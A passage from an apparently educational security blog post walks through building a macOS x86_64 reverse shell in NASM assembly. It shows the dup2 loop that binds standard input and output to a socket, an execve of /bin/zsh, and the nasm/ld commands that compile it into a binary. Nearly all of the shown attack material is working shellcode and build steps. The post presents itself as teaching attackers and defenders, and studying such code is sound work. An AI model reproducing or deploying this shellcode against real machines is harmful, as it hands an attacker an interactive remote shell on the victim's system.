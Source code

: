 ```nasm
   mov rdi,r9          ; rdi -> Socket file descriptor from r9
   push 2
   pop rsi              ; rsi -> 2

dup2_loop:
   push 90              ; dup2() syscall - 90
   pop rax
   bts rax,25
   syscall

   dec rsi              ; decrementing rsi by 1
   jns dup2_loop        ; Jump back to dup2_loop if rsi>=0

   ; execve("/bin/zsh", "/bin/zsh", NULL);
   xor rdx,rdx          ; rdx -> NULL

   push rdx             ; store NULL on stack
   mov rbx,'/bin/zsh'   ; store /bin/zsh in rbx
   push rbx             ; push it onto the stack
   mov rdi,rsp          ; rdi -> /bin/zsh

   push rdx             ; argv[1] -> NULL
   push rdi             ; argv[0] -> /bin/zsh
   mov rsi,rsp          ; store {"/bin/zsh",NULL} in rsi

   push 59              ; execve() syscall - 59
   pop rax
   bts rax,25
   syscall
```

Understanding how this works is crucial for both attackers and defenders, as it shows the fundamental steps of creating a reverse shell.     

### demo

Let's go to see everything in action. First of all, copy to the MacOS VM (`macos-sonoma` in my case) and compile:    

```bash
nasm -f macho64 hack.asm -o hack.o
ld -arch x86_64 -macos_version_min 14.0 -e start -static -o hack hack.o
```

![malware](/assets/images/163/2025-07-05_19-30.png){:class="img-responsive"}    
